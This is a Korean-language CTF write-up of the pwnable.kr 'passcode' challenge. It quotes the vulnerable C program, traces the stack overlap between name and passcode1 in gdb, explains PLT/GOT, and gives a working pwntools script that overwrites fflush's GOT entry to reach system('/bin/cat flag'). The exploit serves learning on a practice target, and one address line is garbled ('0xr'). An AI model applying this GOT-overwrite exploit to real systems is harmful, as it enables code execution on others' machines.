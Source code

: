 ```yaml
---
sticker: emoji//2757
---
```

![](Attachments/{E8AA1051-C408-4E2D-AB4E-2E9498C60C29}.png)

컴파일러 warning이 있었지만 무시하고 에러 없이 컴파일했다고 한다.

![](Attachments/{5DFAC315-32C8-4071-AAE8-0274378F4397}.png)

passcode.c를 열어보자.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}

void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}

int main(){
 printf("Toddler's Secure Login System 1.0 beta.\n");

 welcome();
 login();

 // something after login...
 printf("Now I can safely trust you that you have credential :)\n");
 return 0;
}
```

passcode1과 passcode2를 알려주고 있다.
일단 passcode 파일을 실행했다.
name을 입력하고 passcode1을 입력했는데, segmentation fault 에러가 발생하고 종료됐다.

![](Attachments/{905D3A93-46FC-46F2-9E71-54AF077A7A6E}.png)

scanf에서 passcode를 받을 때 '&' 문자로 주소를 정해줘야 하는데 빠져 있어서 생기는 에러인 것 같다.


### gcc

무슨 warning이 생겼던 건지 passcode.c 파일을 한번 컴파일해보자.

![](Attachments/{99BA4F09-1D44-4363-B0CB-4DDCC065060B}.png)

scanf 함수가 결과를 저장할 passcode1과 passcode2의 주소를 주는 것 대신 그냥 값을 패스하고 있다.

welcome 함수의 scanf에서 warning이 안 뜨는 이유는, 배열의 이름은 base address를 가리키는 포인터로 취급되기 때문이다.


### disas welcome

welcome 함수를 disassemble해보자.

![](Attachments/{6E701AD5-1C56-4192-A913-61C4695F692A}.png)
```c
void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}
```

welcome+33부터 welcome+48까지, scanf 함수에서 벌어지는 일은 다음과 같다.
1. mov $0x80487cb, %eax
	- 문자열 포맷인 `%100s`의 주소를 레지스터 eax에 이동
2. *lea -0x70(%ebp), %edx
	- -0x70(%ebp)는 ebp 레지스터의 값에서 0x70을 뺀 주소를 계산해서 edx에 저장
	- `name` 문자열 배열의 시작 주소를 나타냄

`$ebp-0x70`이 `name`의 주소가 맞는지 확인해보자.

scanf 함수가 호출된 직후인 0x00804863e에 breakpoint를 걸고 실행한다.

![](Attachments/{B8DED19F-32DB-4627-872C-AF77F7376A85}.png)

`(gdb) x/1s $ebp-0x70`
맞았다!


### disas login

이제 passcode1을 찾아보자.

![](Attachments/{34DEC3AA-393A-4119-A6EF-6052AFD3FA7A}.png)
![](Attachments/{64911B97-4FC1-4F67-B50C-757F6BB468D1}.png)
```c
void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}
```

scanf 함수를 찾으면 passcode1과 passcode2의 주소도 찾을 수 있다.
```
0x0804857c <+24>: mov    -0x10(%ebp),%edx
[...]
0x080485aa <+70>: mov    -0xc(%ebp),%edx
```

위에서 찾은 name의 주소는 `$ebp-0x70`이었는데, passcode1의 주소는 `$ebp-0x10`이다.
거리가 0x60=96만큼 차이나므로, name의 크기인 100바이트보다 작다. name 배열 끝 4바이트가 passcode1의 주소와 겹친다는 의미이다.
따라서 name에 무슨 입력값을 넣느냐에 따라 4바이트만큼 passcode1의 초기값을 덮어씌울 수 있다.


### PLT & GOT
참고: https://jiravvit.tistory.com/entry/PLT%EC%99%80-GOT
- PLT
	- 외부 라이브러리 함수를 사용할 수 있도록 주소를 연결해주는 테이블
- GOT
	- PLT에서 호출하는 resolve 함수를 통해 구한, 라이브러리 함수의 절대 주소가 저장되어 있는 테이블
- Dynamic Link 방식으로 컴파일된 파일은 프로그램 내부에 라이브러리가 존재하지 않기 때문에, 외부 라이브리로 링크하는 과정이 필요함

이를 이용해 `login()` 안에 있는 함수 중 하나를 골라 그 함수의 PLT를 타고 도착한 GOT 테이블을 `system(/bin/cat flag)`로 덮어쓰면 된다.

name 끝 4바이트에 fflush의 GOT 주소를 입력해서 실행시킨다.
이때 fflush 함수의 GOT를 `system(/bin/cat flag)`로 바꿔서, 실행될 때 fflush 대신 system을 실행하게 해보자.

순서는 다음과 같다.
1. name을 입력할 때 마지막 4바이트에 `fflush` 함수의 GOT 테이블의 주소를 입력한다.
2. passcode1는 `fflush` 함수의 GOT가 된다.
3. passcode1을 입력할 때 `system` 함수의 시작 주소를 입력한다.
4. 이후 `fflush` 함수가 실행될 때 `system` 함수가 대신 실행된다.


### disas fflush

`fflush`의 GOT 테이블 주소를 찾아보자.

![](Attachments/{3D5CFAB0-FA80-456D-968D-29E459859D79}.png)

`0x08048430 <+0>: jmp *0x804a004`에서 0x804a004로 jmp하는데, 이곳이 `fflush` 함수의 GOT이다.


### system(/bin/cat flag)

`system`의 시작 주소는 `login` 함수를 보면 알 수 있다.

![](Attachments/{60A020CD-A429-41D7-9678-7542D3299F93}.png)

0xr이다.
하지만 passcode1을 입력받을 때 정수형으로 받기 때문에, 10진수로 바꿔서 보내야 한다.
0x080485e3 = 134514147


### 해결

```python
from pwn import *

fflush_got = 0x804a004

payload = b'A'*96
payload += p32(fflush_got)   # fflush_got을 32비트 리틀 엔디안으로 변환

payload2 = '134514147'

# p = process('./passcode')
s = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = s.process('/home/passcode/passcode')

p.sendline(payload)
p.sendline(payload2)

p.interactive()
```

![](Attachments/{71CE71E2-DF0E-4503-9957-B1346E0D48B4}.png)

🚩